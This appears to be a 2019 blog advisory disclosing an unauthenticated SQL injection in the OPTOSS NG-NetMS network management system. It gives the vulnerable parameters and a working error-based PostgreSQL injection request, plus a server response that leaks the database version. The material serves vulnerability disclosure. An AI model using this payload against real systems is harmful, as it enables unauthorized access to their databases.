 ```yaml
---
layout: post
title:  "SQL Injection in OPTOSS Next Gen Network Management System (NG-NetMS)"
date:   2019-01-20 19:51:02 +0700 
categories: [cve]
---
```


Vendor: OPT/NET BV
Product: OPTOSS Next Gen Network Management System (NG-NetMS)
Version affected: NG-NetMS v3.6-2 and earlier versions

#### Product description:
Opt/Net develops Next Gen Network Management System (NG-NetMS). This is a new web based end-to-end management tool. This project is nearly 14 years old and already proved to be indispensable tool for rapid data collection during audits and network infrastructure assessments.

This product provides near real-time visibility of the networks and ITC infrastructures and interconnected computing resources.

* CVE ID: CVE-2019-xxxx
* CWE ID: CWE-89

#### #Proof of Concept

The unauthenticated SQL Injection vulnerability can be exploited by issuing a specially crafted HTTP GET request. NG-NetMS v3.4 application fails to properly sanitize untrusted data before adding it to a SQL query. A malicious attacker can include own SQL commands which database will execute.

Identified vulnerable parameters: id, id_access_type and id_attr_access.  

The following HTTP GET request allows an attacker to exploit the SQL injection vulnerability to return banner information.

#### Request:
{% highlight ruby %}
GET /index.php?id=1%27%20AND%201=CAST((CHR(113)||CHR(112)||CHR(107)||CHR(122)||CHR(113))||(COALESCE(CAST(VERSION()%20AS%20CHARACTER(10000)),(CHR(32))))::text||(CHR(113)||CHR(106)||CHR(120)||CHR(113)||CHR(113))%20AS%20NUMERIC)--%20&r=attrValue/index HTTP/1.1
Host: a.b.c.d
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=q42805kqdm1pq02ig6omhfn3k4
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: no-transform
{% endhighlight %}

#### Response: 
{% highlight ruby %}
HTTP/1.1 500 Internal Server Error
Date: Mon, 30 Oct 2017 05:25:01 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.11
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Connection: close
Content-Type: text/html
Content-Length: 43313

<!DOCTYPE html>
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>

<snip>

<h2>Error 500</h2>

<div class="error">
CDbCommand failed to execute the SQL statement: SQLSTATE[22P02]: Invalid text representation: 7 ERROR:  invalid input syntax for type numeric: &quot;qpkzq PostgreSQL 9.3.9 on x86_64-unknown-linux-gnu, compiled by gcc (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4, 64-bit qjxqq&quot;</div>        </div><!-- content -->
    </div>
    <div class="span3">
        <div id="sidebar">
                </div><!-- sidebar -->
    </div>
</div>

</snip>
{% endhighlight %}

#### References
1. https://www.owasp.org/index.php/SQL_Injection
2. https://opt-net.eu/products/optoss-ng-netms
3. https://sourceforge.net/projects/ngnms/
